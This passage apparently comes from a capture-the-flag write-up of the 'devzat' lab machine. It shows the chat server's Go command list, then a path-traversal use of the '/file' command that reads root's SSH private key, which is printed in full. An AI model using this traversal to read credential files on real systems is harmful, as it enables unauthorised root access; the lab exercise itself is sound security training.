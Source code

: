 ```
		emojis      = commandInfo{"emojis", "Get a list of emojis you can use", emojisCommand, 1, false, nil}
		help        = commandInfo{"help", "Get generic info about the server", helpCommand, 1, false, nil}
		tictactoe   = commandInfo{"tictactoe", "Play tictactoe", tictactoeCommand, 1, false, []string{"ttt", "tic"}}
		hangman     = commandInfo{"hangman", "Play hangman", hangmanCommand, 0, false, []string{"hang"}}
		shrug       = commandInfo{"shrug", "Drops a shrug emoji", shrugCommand, 1, false, nil}
		asciiArt    = commandInfo{"ascii-art", "Bob ross with text", asciiArtCommand, 1, false, nil}
		exampleCode = commandInfo{"example-code", "Hello world!", exampleCodeCommand, 1, false, nil}
		file        = commandInfo{"file", "Paste a files content directly to chat [alpha]", fileCommand, 1, false, nil}
	)
	commands = []commandInfo{clear, message, users, all, exit, bell, room, kick, id, _commands, nick, color, timezone, emojis, help, tictactoe, hangman, shrug, asciiArt, exampleCode, file}
}
...[snip]...
```

Connecting to the dev instance of devzat we try to read root's ssh key.

```
catherine@devzat:~$ ssh 127.0.0.1 -p 8443
patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now 👔
patrick: That's perfectly fine 👍  You'll need a password which you can gather from the source. I left it in our default backups location.
catherine: k
patrick: I also put the main so you could diff main dev if you want.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. Consider it alpha state, though. Might not be secure yet. See ya!
devbot: patrick has left the chat
Welcome to the chat. There are no more users
devbot: catherine has joined the chat
catherine: /file /root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/.ssh/id_rsa does not exist!
```

The error message tells us how the path get's concatenated, so we can simply go a directory up and are lucky to find root's private ssh key exists in the default location on the machine.

```
catherine: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
catherine:
```
